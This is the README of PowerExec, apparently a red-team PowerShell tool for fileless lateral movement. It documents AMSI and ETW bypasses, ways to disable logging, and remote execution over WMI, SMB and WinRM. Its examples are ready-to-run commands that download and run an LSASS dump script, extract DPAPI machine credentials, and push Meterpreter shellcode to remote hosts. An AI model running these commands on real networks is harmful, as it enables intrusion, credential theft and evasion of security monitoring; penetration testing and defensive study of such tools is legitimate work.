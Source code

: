 # PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
New-PowerLoader                 -   builds script block for in-memory execution of various payload types
```


## Payload types

The payload type must be specified within the function `New-PowerLoader`:

| Type      | Description                               |
| --------- | ----------------------------------------- |
| PoSh      | PowerShell script                         |
| NetAsm    | .NET assembly executable                  |
| PE        | Windows PE file (EXE/DLL)                 |
| Shellcode | Shellcode in binary format (experimental) |

Resulting PowerShell script block is built either from a local payload file or from a remote payload using a download cradle.

Please note that PE execution output will only be retrieved when run locally, not remotely.

## Bypass techniques

Bypass techniques can be specified within the function `New-PowerLoader`:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |
| PRM    | Disable PowerShell Readline Module                       |


## Execution methods

The execution method must be specified within the function `Invoke-PowerExec`:

| Method          | Description                                               | Run as              |
| --------------- | --------------------------------------------------------- | ------------------- |
| CimProcess      | Create process via WMI                                    | Current user        |
| CimService      | Create temporary service via WMI                          | NT AUTHORITY\SYSTEM |
| CimSubscription | Create temporary WMI event subscription (experimental)    | NT AUTHORITY\SYSTEM |
| CimTask         | Create temporary scheduled task via WMI                   | NT AUTHORITY\SYSTEM |
| SmbDcom         | Create DCOM instance leveraging SMB named pipe            | Current user        |
| SmbService      | Create temporary service leveraging SMB named pipe        | NT AUTHORITY\SYSTEM |
| SmbTask         | Create temporary scheduled task leveraging SMB named pipe | NT AUTHORITY\SYSTEM |
| WinRM           | Run powershell via Windows Remote Management              | Current user        |

For WMI methods, the transport protocol can be chosen between DCOM and WSMAN.

The execution output is retrieved regardless of the method used.


## Examples

Run a PowerShell script through WinRM while bypassing AMSI, PowerShell Module Logging and Script Block Logging:

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/tmenochet/PowerDump/master/LsassDump.ps1' -ArgumentList 'Invoke-LsassDump' -Bypass AMSI,PML,SBL
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method WinRM -ComputerDomain ADATUM.CORP -ComputerFilter Servers
```

Run a .NET assembly through WMI while bypassing AMSI and ETW:

```
PS C:\> $payload = New-PowerLoader -Type NetAsm -FileUrl 'https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/SharpDPAPI.exe' -ArgumentList 'machinecredentials' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method CimProcess -Protocol Dcom -ComputerList 192.168.1.1,192.168.1.2
```

Run a shellcode through a service:

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin | Invoke-PowerExec -ComputerList 192.168.1.1 -Method CimService -Protocol Dcom
```


## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
